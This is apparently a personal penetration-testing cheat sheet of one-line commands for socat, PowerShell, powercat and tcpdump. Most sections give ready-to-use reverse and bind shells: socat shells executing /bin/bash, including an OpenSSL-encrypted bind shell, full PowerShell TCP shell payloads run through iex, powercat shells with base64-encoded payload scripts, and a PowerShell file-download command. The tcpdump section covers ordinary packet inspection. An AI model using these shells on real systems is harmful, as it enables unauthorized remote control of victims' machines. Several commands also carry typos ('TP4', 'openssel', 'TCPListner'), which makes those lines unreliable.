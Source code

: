 # Remember

## SOCAT
1. Interacting with a remote service.
`socat - TCP4:<IP>:<PORT>`

2. Starting a listener, creating a simple chat. Note: Need to be sudo to bind listener or privilege ports. Use the command in number 1 to interact with the server.
`sudo socat TCP4:LISTEN:<PORT> STDOUT` -- server

3. Transferring files. Fork is used to create a child process once the client connect to the listener.
`sudo socat TP4:LISTEN:<PORRT>,fork file:secret.txt`  -- server
`socat TCP4:<IP>:<PORT> file:secret.txt,create` -- client

4. Socat reverse shells.
`socat -d -d TCP4-LISTEN:443 STDOUT` -- attacker's machine
`socat TCP4:<IP>:<PORT> EXEC:/bin/bash` -- victim's machine

5. Socat encrypted  bind shells. req and -x509 (creates a self-signed certificates), -nodes(stored the key unencrypted) -days (validity)
- First generate a certificate.
`openssel req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt`
- Convert the bind shell key and bind shell ccertificate into a .pem file.
A file that socat accepts.
`cat bind_shell.key bind_shell.crt > bind_shell.pem`
- Create a listener or server.verify=0(disables ssl verification)
`sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
- Connect to the server.
`socat - OPENSSL:<IP>:<PORT>,verify=0`

## POWERSHELL 

1. Transfer files.
`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://example.com/example.exe','C:\Users\ninja\Desktop\example.exe')"`

2. Reverse Shells
- Set up netcat listener.
`sudo nc -lvnp 443`
- Send reverse shell.
`powershell -c "$client = New-Object System.Net.Sockets.TCPCLient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.close();"`

3. Bind Shells
`powershell -c "$listener = New-Object System.Net.Sockets.TCPListner('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();$listener.Stop()"`


## POWERCAT
1. File transfer.
`powercat -c <IP> -p <PORT> -i <filetotransfer>` --sender
`sudo nc -nlvp 443 > <filename>` -- receiver

2. Reverse Shells
`sudo nc -lvp 443` --attacker
`powercat -c <IP> -p <PORT> -e cmd.exe` -- victim

3. Bind Shells
`powercat -l -p 443 -e cmd.exe` -- victim or server
`nc -nv <IP> <PORT>` -- attacker or client

4. Powercat stand-alone payloads.
- create a reverse shell payload. 
`powercat -c <IP> -p <PORT> -e cmd.exe > reverseshell.ps1`
- create a listener.
`sudo nc -nlvp 443`

- encoded payload, use "-ge"
`powercat -c <IP> -p <PORT> -ge cmd.exe > encodedreverseshell.ps1`
- to run the encoded payload script.
`powershell.exe -E "<base64encodedscript>"`


## TCPDUMP
1 . inspect a pcap file
`tcpdump -r <file.pcap>`

2. inspect a specific host (e.g. src address) on pcap file 
`tcpdump -n src host <IP> -r <file.pcap>`

3. inspect a specific port on pcap file 
`tcpdump -n port <portnumber> -r file.pcap<>`

4. inpect in a hex and ascii format
`tcpdump -nX -r <file.pcap | less>`

5. Advanced Filtering (e.g. ACK and PUSH bit set)
- 
`echo "$((2#00011000))"` -- output fed to tcpdump
- note: starts at index zero, in this example 14 and 15 byte
`tcpdump -A -n 'tcp[13] = 24' -r <file.pcap>`